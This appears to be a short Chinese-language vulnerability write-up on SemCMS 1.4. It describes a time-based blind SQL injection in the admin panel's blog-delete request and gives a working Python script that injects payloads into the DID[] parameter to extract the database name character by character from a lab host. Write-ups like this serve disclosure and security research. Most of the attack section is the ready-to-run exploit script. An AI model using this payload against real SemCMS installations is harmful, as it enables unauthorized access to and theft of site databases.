 ### semcms

```
版本信息：1.4
```

#### 后台sql注入

登录进后台后进入到【信息管理】的【博客管理】，选中博客并且删除然后抓包

![image-20221208155305246](images/image-20221208155305246.png)

构造时间盲注，成功执行了sleep

![image-20221208155423824](images/image-20221208155423824.png)

获取数据库名长度

![image-20221208155507763](images/image-20221208155507763.png)

```
import requests

database = ""
header = {
    "X-Requested-With": "XMLHttpRequest",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "theme=default; frontLang=zh-cn; __bid_n=184ada2f395ab4dd774207; ECS[visit_times]=2; ishistory=1; gnolt4_admin_username=admin; PHPSESSID=ksj15tsgisn8b7fhq40uvkif11",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Edg/105.0.1343.42"
}
# proxier = {
#     "http": "127.0.0.1:8080"
# }

for i in range(1, 7):
    for a in range(47, 127):
        payload = "http://192.168.81.116:12342/hXd0MR_AhF/Ant_Inc.php?action=Clear&sort=info&lgid=1"
        data = "DID[]=15 and if(ascii(substr(database(),{},1))={},sleep(3),1)".format(i, a)
        re = requests.post(url=payload, data=data, headers=header, timeout=10)
        # print(re.elapsed.total_seconds())
        if re.elapsed.total_seconds() > 6:
            database += chr(a)
            print(database)
```

![image-20221208160247571](images/image-20221208160247571.png)